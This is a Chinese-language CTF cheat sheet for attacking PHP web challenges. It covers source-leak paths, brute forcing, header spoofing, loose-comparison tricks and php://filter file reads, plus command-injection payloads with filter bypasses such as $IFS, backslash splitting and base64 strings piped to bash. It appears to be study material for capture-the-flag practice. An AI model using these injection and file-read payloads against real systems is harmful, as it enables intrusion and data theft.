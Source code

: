 # PHP

* ## 基础

Robots.txt 查看robots协议规定的网站信息（对网站本身并无实质性影响）

备份源码泄露：www.zip/www.tar.gz/index.php.bak

弱口令爆破：burp抓包后更改爆破点，加载字典进行爆破

X-Forward-For / Referer 伪造 --&gt; X-Forward-For 为最初发起请求的客户端的ip地址，Referer 为当前请求页面的来源页面地址

php弱类型对比（==），不涉及数据转换 --&gt; 0e123==0e456 （典型：md5碰撞）

php伪协议：

```
php://input  //通过post方法将原数据远程上传至服务器
php://filter //通过一些过滤将原数据进行一些操作后下载
?file=php://filter/read=convert.base64-encode/resource=flag.php
        //将flag.php内部源码进行base64编码后给file赋值
```

* ### 命令注入

HTML注入：

```
127.0.0.1;var_dump(scandir('/'));
127.0.0.1;file_get_contents(filename);
```

* #### Bypass

空格绕过 --&gt; 采用&lt;&gt;、/\*\*/、采用特殊变量$IFS

利用反斜杠

```
cat /flag ==> c\at /fl\ag
```

base64编码和解码

```
echo Y2F0IC9mbGFn|base64 -d|bash
```

过滤斜杠 --&gt;利用环境变量进行字符串截取

利用单引号绕过

拼接：

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

编码：

```
/?ip=1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
```

内联：

    /?ip=127.0.0.1;cat$IFS$9`ls`

* #### 



